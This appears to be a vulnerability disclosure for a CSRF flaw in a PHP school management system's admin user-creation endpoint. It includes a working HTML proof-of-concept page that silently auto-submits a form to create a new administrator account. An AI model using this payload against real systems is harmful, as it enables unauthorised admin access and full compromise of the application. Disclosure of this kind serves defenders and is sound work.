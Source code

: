 ### 1. **Summary**

A Cross-Site Request Forgery (CSRF) vulnerability has been identified in the admin panel of the application, specifically on the user's creation page. An attacker can exploit this vulnerability to create a new administrator account with full privileges by submitting a specially crafted request to the vulnerable endpoint.

---

### 2. **Vulnerability Description**

CSRF vulnerabilities occur when an attacker tricks an authenticated user into submitting an unwanted request on their behalf. In this case, an attacker can create a new user with admin privileges without the user's consent.

#### Details of the vulnerability:

- The vulnerable endpoint is located at `/sms/classes/Users.php?f=save`.
- The user creation form does not properly validate requests, leaving it open to CSRF attacks.
- The attacker can craft a malicious request and trick the victim (admin user) into executing it.

By exploiting this CSRF vulnerability, an attacker can create a new admin account with full privileges, potentially compromising the security of the entire system.

---

### 3. **Proof of Concept (PoC)**

Below is the PoC that demonstrates the CSRF vulnerability. The attacker can host the following HTML page on their server or send it to the targeted admin user. When the admin user interacts with the page (e.g., clicks a button), the attacker’s script will create a new admin account without the user’s knowledge.


```
<html>
  <body>
    <form action="http://192.168.211.130/sms/classes/Users.php?f=save" method="POST">
      <input type="hidden" name="id" value="" />
      <input type="hidden" name="firstname" value="John" />
      <input type="hidden" name="lastname" value="Doe" />
      <input type="hidden" name="username" value="john" />
      <input type="hidden" name="password" value="Password" />
      <input type="hidden" name="type" value="1" />
      <input type="hidden" name="img" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

- **Description of the Attack**:  
    The attacker uses JavaScript to submit a POST request with a malicious payload to the vulnerable user creation endpoint. This request contains a new user’s data, including the `type` parameter set to `1` (indicating an admin account).  
    The attack will only succeed if the admin user is logged in and unaware of the attack.
    
#### **Screenshot of the Newly Created Admin Account**

The following screenshot demonstrates the result of the CSRF attack, showing the new admin account created by the attacker:
![1](https://github.com/th3w0lf-1337/Vulnerabilities/blob/main/SMS-PHP/CSRF/CSRF%20PoC.png)


### 4. **Impact**

If successfully exploited, this CSRF vulnerability can allow an attacker to:

- Create a new admin account.
- Gain full access to the system and its data.
- Potentially escalate the attack to compromise the entire infrastructure, depending on the privileges of the created admin account.
